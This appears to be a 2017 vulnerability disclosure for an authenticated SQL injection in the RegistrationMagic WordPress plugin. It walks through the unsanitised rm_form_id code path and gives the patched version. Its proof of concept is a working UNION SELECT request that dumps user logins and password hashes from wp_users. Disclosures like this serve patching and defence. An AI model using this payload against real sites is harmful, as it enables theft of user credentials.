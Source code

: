 ```yaml
---
layout: single
title: RegistrationMagic - Custom Registration Forms <= 3.7.9.2 Authenticated SQL Injection
date: 2017-12-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - registrationmagic
  - sql injection
excerpt: Due to a lack of input sanitisation, arbitrary `SELECT` statements can be executed and the results viewed in the field management page.
---
```

## Homepage
[https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/](https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/)

## Overview
Due to a lack of input sanitisation, arbitrary `SELECT` statements can be executed and the results viewed in the field management page.

## CVSS Score
3.0

## CVSS Vector
[(AV:N/AC:M/Au:S/C:P/I:N/A:N/E:H/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:P/I:N/A:N/E:H/RL:OF/RC:C))

## Versions Affected
3.7.9.2 and below

## Solution
Update to version 3.7.9.3 or higher

## Proof of Concept
```
GET /wp-admin/admin.php?page=rm_field_manage&rm_form_id=-1+union+select+ID%2C2%2C3%2Cconcat(user_login%2C0x3a%2Cuser_pass)%2Cconcat(0x54%2C0x65%2C0x78%2C0x74%2C0x62%2C0x6f%2C0x78)%2C6%2C7%2C8%2C9%2C10%2C11+from+wp_users
```

## WordPress Exploit Framework Module
[auxiliary/hash_dump/registrationmagic\_hash\_dump](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/auxiliary/hash_dump/registrationmagic_hash_dump.rb)

## Technical Overview
On line 169 of `admin/controllers/class_rm_field_controller.php`, a call is made into `get_all_form_fields`, passing in the value of the `rm_form_id` field, with no sanitisation:

```php
if (isset($request->req['rm_form_id']))
    $fields_data = $service->get_all_form_fields($request->req['rm_form_id']);
else
    die(RM_UI_Strings::get('MSG_NO_FORM_SELECTED'));
```

Once in `get_all_form_fields` (found on line 884 of `services/class_rm_services.php`), the code then calls out to `RM_DBManager::get_fields_by_form_id`, again, passing the unsanitised data into the next function:

```php
public function get_all_form_fields($form_id) {
    if ((int) $form_id)
        return RM_DBManager::get_fields_by_form_id($form_id);
    else
        return false;
}
```

Now, on line 186 of `includes/class_rm_dbmanager.php`, within the `get_fields_by_form_id` function, the unsanitised data (`$form_id`) is used in the construction of an SQL query:

```php
$results = $wpdb->get_results("SELECT * FROM `$table_name` WHERE `$foreign_key` = $form_id ORDER BY `page_no` ASC, `field_order` ASC");
```

Data from any table can now be retrieved by using a `UNION` statement in the value passed via `$form_id`. The schema for the `wp_rm_fields` table. that it selects from. contains 11 columns:

```
+-------------------------+-----------------+------+-----+---------+----------------+
| Field                   | Type            | Null | Key | Default | Extra          |
+-------------------------+-----------------+------+-----+---------+----------------+
| field_id                | int(6) unsigned | NO   | PRI | NULL    | auto_increment |
| form_id                 | int(6)          | YES  |     | NULL    |                |
| page_no                 | int(6) unsigned | NO   |     | 1       |                |
| field_label             | text            | YES  |     | NULL    |                |
| field_type              | text            | YES  |     | NULL    |                |
| field_value             | mediumtext      | YES  |     | NULL    |                |
| field_order             | int(6)          | YES  |     | NULL    |                |
| field_show_on_user_page | tinyint(1)      | YES  |     | NULL    |                |
| is_field_primary        | tinyint(1)      | NO   |     | 0       |                |
| field_is_editable       | tinyint(1)      | NO   |     | 0       |                |
| field_options           | mediumtext      | YES  |     | NULL    |                |
+-------------------------+-----------------+------+-----+---------+----------------+
```

The fourth column will be displayed in the output of the field management page, so data to be read should be placed here. In addition to this, the fifth field, `field_type`, must match one of a number of white listed values.

On lines 187-188 of `admin/controllers/class_rm_field_controller.php`, each row is processed, and the value of the `field_type` column (the fifth column), is checked against the array returned by `get_field_types`, found in `includes/class_rm_utilities.php`:

```php
public static function get_field_types($include_widgets= true) {
    $field_types = array(
        null => 'Select A Field',
        'Textbox' => 'Text',
        'Select' => 'Drop Down',
        'Radio' => 'Radio Button',
        'Textarea' => 'Textarea',
        'Checkbox' => 'Checkbox',
        'jQueryUIDate' => 'Date',
        'Email' => 'Email',
        'Number' => 'Number',
        'Country' => 'Country',
        'Timezone' => 'Timezone',
        'Terms' => 'T&C Checkbox',
        'Price' => 'Product',
        'Fname' => 'First Name',
        'Lname' => 'Last Name',
        'BInfo' => 'Biographical Info',
        'Nickname' => 'Nickname',
        'Password' => 'Password',
        'Website' => 'Website',
        'Hidden' => 'Hidden Field'
    );

    if($include_widgets){
        $field_types= array_merge($field_types,array('Timer'=>'Timer','RichText'=>'Rich Text',
                                 'Divider'=>'Divider','Spacing'=>'Spacing','HTMLP'=>'Paragraph',
                                  'HTMLH'=>'Heading','Link'=>'Link','YouTubeV'=>'YouTube Video',"Iframe"=>"Embed Iframe"));
    }

    return $field_types;
}
```

Providing the value in the fifth column matches one of these values (e.g. `concat(0x54,0x65,0x78,0x74,0x62,0x6f,0x78)`, as found in the POC), the row will be displayed as a field in the resulting markup:

![SQLi Output](/assets/images/registrationmagic-custom-registration-forms-3-7-9-2-authenticated-sql-injection/output.png)


## WPVDB-ID
[8975](https://wpvulndb.com/vulnerabilities/8975)

## Disclosure Timeline
* **2017-10-04**: Initial discovery
* **2017-12-10**: Released public disclosure
